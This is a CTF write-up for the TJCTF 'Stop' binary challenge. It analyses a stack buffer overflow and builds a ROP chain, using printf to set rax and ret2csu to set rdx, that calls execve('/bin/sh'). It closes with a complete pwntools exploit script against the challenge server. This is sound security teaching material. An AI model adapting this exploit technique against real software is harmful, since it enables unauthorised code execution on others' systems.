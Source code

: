 # tjctf: binary

## Stop [70]

Written by KyleForkBomb

_I love playing stop, but I am tired of losing. Check out my new stop answer generator!_

_It's a work in progress and only has a few categories, but it's 100% bug-free!_

`nc p1.tjctf.org 8001`

## Inspection

```bash
$ ./stop.o
Which letter? _
```

As difficulty ramps up, so does source code complexity:

```c
int get_letter(){ int c = getchar(); ... }
int get_category(char *s){ ... }
int main() {
  char s1[256]; // [rsp+0h] [rbp-110h]
  int category; // [rsp+100h] [rbp-10h]
  int s_len;    // [rsp+104h] [rbp-Ch]
  int letter;   // [rsp+108h] [rbp-8h]
  int i;        // [rsp+10Ch] [rbp-4h]

  printf("Which letter? ", 0LL);
  letter = get_letter();
  getchar();
  if ( letter == -1 ) {
    printf("That's not a letter!\n");
    return 1;
  printf("\n");
  for ( i = 0; i <= 4; ++i )
    printf("%s\n", categories[i]);
  printf("\n");
  printf("Category? ");
  s_len = read(0LL, s1, 598LL); //BOF here!
  s1[s_len - 1] = '\0';
  category = get_category(s1);
  if ( category == -1 )
    printf("\nSorry, we don't have that category yet\n");
  else
    printf("\nYour answer is: %s\n", answers[category + 5LL * letter]);
}
```
Let's start off simple. There is a buffer overflow (of `0x256` on `s1[256]`) without any stack protector to halt it:

<p align="center">
<img src="checksec.png">
</p>

Since the buffer overflow's at `"Category? "`, we ignore `get_letter()` for now^1^. Taking a look at `get_category()`, there's not much to be done there either — it just gives back a small value within the boundaries of `answers[]`. 
```c
int get_category() {
  int i;
  for ( i = 0; i <= 4; ++i ) {
    if ( !strcasecmp(categories[i], a1) )
      return (unsigned int)i;
  }
  return 0xFFFFFFFFLL;
}
```
What we're left with is an 0x256-256-24 == 326 byte buffer overflow, with little else to do. Where do we go from here?

## Gadget Grabbing

Running `ropper` on the binary, I noticed a curio:
<p align="center">
<img src="curio.png">
</p>

The binary has a `syscall` instruction in it, which is naturally indicative of a Return Oriented Programming attack vector. This also brought to attention something I'd failed to notice in IDA: the `read()` function is actually implemented as a syscall wrapper in `Stop`:

<p align="center">
<img src="read.png">
</p>

With that in mind, we've a simple strategy to get through to `/bin/sh`:
1. overflow to the return pointer
2. set a ROP chain to rax=59, rdi="/bin/sh", rsi=rdx=0
3. `syscall` to execve("/bin/sh")
4. Use `read()` to write extra rop-chains if 326 bytes isn't enough^2^

(1) is simple enough. Using `pwn.cyclic()`, we can find the offset to the first return pointer in `gdb`: 

<p align="center">
<img src="cyclic.png">
</p>

Doing (2)? Not as simple.

## Black Magic

<p align="center">
<img src="ropper.png">
<br><i>404</i><br>
</p>

We've got access to `rdi` and `rsi`, nominally the first two arguments for x64 functions. Unforuntately, there's no immediate gadget that allows us to set the value of `rax` arbitrarily.

At first, we considered using `get_letter()` as a gadget, but its `cmp` restrictions are too large for rax=59, and it also was not immediately apparaent that a well-placed `[rbp-4]` would be sufficient to edit rax.

Instead, knowing that we had access to rdi and rsi, we dug through the binary for a "string" (sequence of non-'\0' bytes) of length 59, using rdi="[length-59 C-string]" and `printf()` to write the length to rax.

<p align="center">
<img src="manpage.png">
<br><i>That thing no one ever reads</i><br>
</p>

<p align="center">
<img src="manpage.png">
<br><i>That (other) thing that people demean as obtruse</i><br>
</p>

At this point, the stack might look something like this:

```
+---s[]---+-------------ROP-chain-----------------+
| garbage | pop-rdi | "len59_str" | .plt printf() |
+---272---+----------------3*8--------------------+
```

Tacking on the rsi/rdi edits needed for the syscall, it'll expand to this:
```
+---s[]---+-------------ROP-chain-----------------+------------more-ROP-----------+
| garbage | pop-rdi | "len59_str" | .plt printf() | pop-rsi | 0 | 0 | pop-rdi | 0 |
+---272---+----------------3*8--------------------+--------------5*8--------------+
```
## Execution

-finalising

<p align="center">
<img src="interactive.png">
</p>

## flag

`tjctf{st0p_th4t_r1ght_now}`

## code
```python
from pwn import *
#lots of constants
r_offset = cyclic_find("uaac") #find this empirically
E = ELF('./stop.o')
binsh = 0x400A1A        #location of the "/bin/sh" string
len59 = 0x4006F0+5-59   #an eyeballed address containing a 59-byte long C-string
printf = E.symbols['printf']
#find these gadgets from ropper, or otherwise
pop_rdi = 0x400953
pop_six = 0x40094A
pop_rsi_r15 = 0x400951
mov_rdx_call = 0x400930
dynamic_init = 0x601de0 #x/5g &_DYNAMIC
read_syscall = E.symbols['read']    #the read() function
#helper functions to create ROPchains that write to certain registers
ret2csu = lambda rdx: [pop_six, 0, 1, dynamic_init, 0, 0, rdx]+[mov_rdx_call]+[0]*7
rdi_rsi = lambda rdi, rsi: [pop_rdi, rdi, pop_rsi_r15, rsi, 0]
#rop chain starts here
rop = ret2csu(0)                #rdx = 0
rop+= [pop_rdi, len59, printf]  #rdi = "<length-59 str>"; printf(rdi)
rop+= rdi_rsi(binsh, 0)         #rdi = "/bin/sh", rsi = 0
rop+= [read_syscall+5]          #syscall
rop = ''.join(map(p64,rop))
r = remote('p1.tjctf.org', 8001)
r.sendlineafter('? ', 'a')
assert len(rop)+r_offset < 598  #input requirement
r.sendlineafter('? ', 'a'*r_offset + rop)
r.interactive()
```
## footnotes
1. `get_letter()` could be used as a way to edit rax, but `printf()` felt simpler.
2. This _was_ a problem, but the solution shown here doesn't deal with this.
